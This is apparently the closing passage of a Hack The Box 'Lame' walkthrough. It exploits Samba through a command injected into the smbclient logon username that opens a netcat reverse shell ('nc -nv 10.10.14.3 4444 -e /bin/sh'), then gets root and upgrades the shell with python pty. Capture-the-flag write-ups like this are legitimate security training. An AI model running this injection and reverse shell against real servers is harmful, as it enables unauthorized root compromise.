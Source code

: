 ```bash
 Payload for username - logon "/=nohup nc -nv 10.10.14.3 4444 -e /bin/sh"
```

```bash
 smbclient -N //<ip address>/tmp --option='client min protocol=NT1'  
 Anonymous login successful
 Try "help" to get a list of possible commands.
 smb: > logon "/=nohup nc -nv <receiver IP address> 4444 -e /bin/sh"
 Password: 
 session setup failed: NT_STATUS_IO_TIMEOUT
 smb: >
```
Now, we have to open listener using Netcat on another terminal to get back the system shell of
the machine.

```bash
 Command - nc -lvnp 4444 
```

```bash
 listening on [any] 4444 …
 connect to [<receiver ip address] from (UNKNOWN) [<machine ip address>] 35739
 whoami
 root
 python -c 'import pty; pty.spawn("/bin/bash")'
 root@lame:/#
```
As mentioned above, I used python -c ‘import pty; pty.spawn(“/bin/bash”)’, to get a
interactive shell.

[![Pwned](/assets/images/writeups/Lame-HTB/pwned.png)](https://www.hackthebox.com/achievement/machine/337503/1){:target="_blank"}

Thanks for reading this far. If you enjoyed the writeup, do support me [__here__](https://www.buymeacoffee.com/h4xplo1t){:target="_blank"}.
